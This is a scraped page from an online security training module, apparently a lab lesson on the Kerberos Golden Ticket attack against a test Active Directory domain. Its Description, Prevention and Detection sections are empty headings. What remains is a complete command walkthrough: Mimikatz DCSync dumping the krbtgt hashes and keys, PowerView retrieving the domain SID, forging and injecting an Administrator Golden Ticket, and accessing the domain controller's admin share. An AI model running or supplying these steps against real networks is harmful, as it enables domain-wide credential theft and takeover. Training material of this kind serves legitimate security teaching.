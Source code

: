 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/176/section/1785
// Platform Version: V1
// Module ID: 176
// Module Name: Windows Attacks & Defense
// Module Difficulty: Medium
// Section ID: 1785
// Section Title: Golden Ticket
// Page Title: Windows Attacks & Defense
// Page Number: 10
-->

# Golden Ticket

**Module Name:** Windows Attacks & Defense **Page Number:** 10

#### WINDOWS ATTACKS & DEFENSE

# Golden Ticket

## Description

## Attack

``` cmd-session
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```

![https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png](https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png)

``` powershell-session
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

![https://academy.hackthebox.com/storage/modules/176/A8/sid.png](https://academy.hackthebox.com/storage/modules/176/A8/sid.png)

``` cmd-session
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

![https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png](https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png)

``` cmd-session
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

![https://academy.hackthebox.com/storage/modules/176/A8/injectedTicket.png](https://academy.hackthebox.com/storage/modules/176/A8/injectedTicket.png)

``` cmd-session
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```

![https://academy.hackthebox.com/storage/modules/176/A8/listDC1.png](https://academy.hackthebox.com/storage/modules/176/A8/listDC1.png)

## Prevention

## Detection

![https://academy.hackthebox.com/storage/modules/176/A8/logonAfterTickets.png](https://academy.hackthebox.com/storage/modules/176/A8/logonAfterTickets.png)

## Ticket 1:

![https://academy.hackthebox.com/storage/modules/176/A8/ticket1.png](https://academy.hackthebox.com/storage/modules/176/A8/ticket1.png)

## Ticket 2:

![https://academy.hackthebox.com/storage/modules/176/A8/ticket2.png](https://academy.hackthebox.com/storage/modules/176/A8/ticket2.png)

## Note

# 

# 

#### Questions

####